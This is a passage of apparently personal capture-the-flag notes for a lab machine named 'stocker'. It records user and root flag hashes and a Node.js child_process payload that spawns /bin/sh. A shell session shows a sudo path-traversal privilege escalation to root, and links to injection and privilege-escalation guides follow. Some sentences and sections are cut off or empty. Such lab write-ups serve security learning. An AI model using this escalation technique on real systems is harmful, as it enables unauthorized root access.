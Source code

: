 ```shell

```

- found the user flag in the user.txt
- 6b66ec093a9dc5fb98fdbf86dcf75287
I then looked to see what we can use for priviliege escalation based on the rule of wildcards in a folder, I beleved that any script

```js

require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})

```

```shell
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../tmp/exploit.js
# ls
exploit.js  exploitjs  user.txt
# /root
/bin/sh: 2: /root: Permission denied
# ls
exploit.js  exploitjs  user.txt
# whoami
root

```


- After getting the root access I then found the flag in the /root/root.txt
- f5583c486e777bc412336ec1063ae429

----
## Foothold


---
## Tags

----
## Resources
- Seclist for DNS - https://github.com/danielmiessler/SecLists
- NoSQL injection- https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass
- https://blog.213.se/stocker-hackthebox/
- SQL bypass Burp- https://portswigger.net/support/using-sql-injection-to-bypass-authentication 
- wild card file rules for root escalation- https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/
- Script to expoilt https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-path-traversal-privilege-escalation/